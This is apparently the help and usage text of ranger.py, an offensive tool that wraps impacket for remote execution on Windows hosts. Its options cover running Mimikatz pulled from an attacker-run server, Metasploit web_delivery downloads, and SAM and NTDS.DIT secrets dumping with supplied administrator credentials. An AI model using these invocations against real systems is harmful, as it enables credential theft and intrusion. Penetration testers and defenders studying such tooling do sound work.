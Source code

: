 usage:
Command Shell:
    ranger.py [-i IP] [--user Administrator] [--pwd Password1] [-t target] --smbexec -q -v -vv -vvv
Attack Directly:
    ranger.py [-i IP] [--user Administrator] [--pwd Password1] [-t target] --wmiexec --invoker -q -v -vv -vvv
Create Pasteable Double Encoded Script:
    ranger.py --invoker -q -v -vv -vvv

A wrapping and execution tool for a some of the most useful impacket tools

optional arguments:
  -h, --help            show this help message and exit
  -v                    Verbosity level, defaults to one, this outputs each
                        command and result
  -q                    Sets the results to be quiet
  --version             show program's version number and exit

Method:
  --psexec              Inject the invoker process into the system memory with
                        psexec
  --wmiexec             Inject the invoker process into the system memory with
                        wmiexec
  --smbexec             Inject the invoker process into the system memory with
                        smbexec
  --atexec              Inject the command task into the system memory with at
                        on systems older than Vista

Attack:
  --invoker             Configures the command to use Mimikatz invoker
  --downloader          Configures the command to use Metasploit's
                        exploit/multi/script/web_delivery
  --secrets_dump        Execute a SAM table dump
  --command COMMAND     Set the command that will be executed, default is
                        cmd.exe
  --group-members GROUP
                        Identifies members of Domain Groups through PowerShell

SAM and NTDS.DIT Options, used with --sam_dump:
  --system SYSTEM       The SYSTEM hive to parse
  --security SECURITY   The SECURITY hive to parse
  --sam SAM             The SAM hive to parse
  --ntds NTDS           The NTDS.DIT file to parse

PowerShell IEX Options:
  -i SRC_IP             Set the IP address of the Mimkatz server, defaults to
                        eth0 IP
  -n INTERFACE          Instead of setting the IP you can extract it by
                        interface, default eth0
  -p SRC_PORT           Set the port the Mimikatz server is on, defaults to
                        port 8000
  -x PAYLOAD            The name of the Mimikatz file, the default is Invoke-
                        Mimikatz.ps1
  -a MIM_ARG            Allows you to change the argument name if the Mimikatz
                        script was changed, defaults to DumpCreds
  -f MIM_FUNC           Allows you to change the function name if the Mimikatz
                        script was changed, defaults to Invoke-Mimikatz

Remote Target Options:
  -t TARGET             The system you are attempting to exploit
  --domain DOM          The domain the user is apart of, defaults to WORKGROUP
  --user USR            The username that will be used to exploit the system
  --pwd PWD             The password that will be used to exploit the system
  --aes AES_KEY         The AES Key Option
  --kerberos KERBEROS   The Kerberos option
  --share SHARE         The Share to execute against, the default is ADMIN$
  --mode {SHARE,SERVER}
                        Mode to use for --smbexec, default is SERVER, which
                        requires root access, SHARE does not
  --protocol {445/SMB,139/SMB}
                        The protocol to attack over, the default is 445/SMB
  --directory DIRECTORY
                        The directory to either drop the payload or
                        instantiate the session

Filename for randimization of script:
  --filename FILENAME   The file that the attack script will be dumped to

This script oombines specific attacks with dynmaic methods, which allow you to
bypass many protective measures.
